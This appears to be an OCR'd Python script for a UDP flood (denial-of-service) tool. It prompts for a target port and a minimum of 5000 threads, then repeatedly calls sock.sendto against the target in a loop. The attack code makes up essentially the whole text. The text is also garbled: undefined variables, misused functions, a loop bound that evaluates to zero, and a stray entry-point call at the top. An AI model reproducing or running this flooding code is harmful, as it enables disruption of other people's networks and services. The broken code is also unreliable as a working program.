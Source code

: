 if __name__ == "__main__":
    main()

res = [*set(svc)]

type("││  ports=")
print(res)

type("││  port")
print()

open=int(input("││ :"))

type("││🔨 (5000)")
print()
threads=int(input("││ :"))
if threads<5000:
    sys.exit("⚒️ 5000")
c=(sent+int(threads/100)*100.44)/500
sentstring=round(sent,1)



if os.name=='nt':
    print("││ check អរគុណ││")
else:
    print("││ check មើល││")


nx=len(("││ ID:%s  │  Sent %sMB to %s port:%s"%(str((id)).zfill(4),c,ipp,open)))
print("―"*nx)

while True:
     for i in range(int(threads/10000000000000000000000000000000)):
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))
         sock.sendto(bytes, (ipp,int(open)))